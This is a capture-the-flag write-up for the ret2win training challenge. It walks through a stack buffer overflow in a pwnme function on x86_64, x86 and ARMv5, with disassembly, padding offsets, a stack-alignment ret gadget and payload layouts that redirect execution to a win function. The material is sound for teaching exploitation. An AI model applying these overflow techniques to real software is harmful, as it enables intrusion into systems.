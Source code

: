 # ret2win

This is the first of the 8 challenges, it's also the simplest.
All binaries have the same vulnerability which is a buffer overflow in the `pwnme` function.

For this one, we can find the ret2win function by listing symbols of the file with nm.
```bash
$ nm ret2win
...
0000000000400756 t ret2win  # x86_64
...
0804862c t ret2win          # x86
...
000105ec t ret2win          # ARMv5
...
```
The objective become clear: return from `pwnme` into `ret2win`.
For all architectures, the buffer overflow is a read of 56 bytes into a 32 bytes buffer.

## x86_64:
```asm
0000000000400733 <pwnme + 0x4b>:
  400733:	48 8d 45 e0      lea    rax,[rbp-0x20]
  400737:	ba 38 00 00 00   mov    edx,0x38
  40073c:	48 89 c6         mov    rsi,rax
  40073f:	bf 00 00 00 00   mov    edi,0x0
  400744:	e8 47 fe ff ff   call   400590 <read@plt>
...

0000000000400754 <pwnme + 0x6c>:
  400754:	c9               leave
  400755:	c3               ret
```
We have only the 32 bytes for the buffer, so it will only take 40 bytes to reach the return address.
However, this is a x64 challenge so the stack pointer has to be 16-byte aligned when returning
from functions. To avoid a segfault on an aligned memory move, we can stick the address of a `ret`
instruction before the ret2win address.
```
┌─────────────────────────┐  ┌─────────────────────────┐
│ buffer                  │  │ 20 20 20 20 20 20 20 20 │ <- padding (40 bytes)
│                         │  │ 20 20 20 20 20 20 20 20 │
│                         │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  │ 20 20 20 20 20 20 20 20 │
│ old_rbp                 │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  ├─────────────────────────┤
│ ret                     │  │ 0x400755                │ <- ret
├─────────────────────────┤  ├─────────────────────────┤
│ ...                     │  │ 0x400756                │ <- ret2win address
└─────────────────────────┘  └─────────────────────────┘
```
## x86:
```asm
08048609 <pwnme + 0x5c>:
 8048609:	6a 38            push   0x38
 804860b:	8d 45 d8         lea    eax,[ebp-0x28]
 804860e:	50               push   eax
 804860f:	6a 00            push   0x0
 8048611:	e8 9a fd ff ff   call   80483b0 <read@plt>
...
0804862a <pwnme + 0x7d>
 804862a:	c9                   	leave
 804862b:	c3                   	ret
```
Since the `leave` instruction is cleaning the stack frame for this function,
and the read call is writing at `[ebp - 0x28]`, we can deduce that the return address will be
at `buffer + 0x28 + 0x4 = buffer + 44`. Thus we need 44 bytes of padding, then the ret2win address
```
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (44 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ ...         │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ ...         │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old ebp     │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ ret         │  │ 0x804862c   │ <- ret2win address
└─────────────┘  └─────────────┘
```
## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
...
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
...
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
In ARMv5, the return address is the `lr` register.   
So in order to overwrite it, we need 36 bytes of padding, then the ret2win address.   
```bash
┌─────────────┐  ┌─────────────┐
│ buffer      │  │ 20 20 20 20 │ <- padding (36 bytes)
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
│             │  │ 20 20 20 20 │
├─────────────┤  │ 20 20 20 20 │
│ old fp      │  │ 20 20 20 20 │
├─────────────┤  ├─────────────┤
│ lr          │  │ 0x105ec     │ <- ret2win address
└─────────────┘  └─────────────┘
```
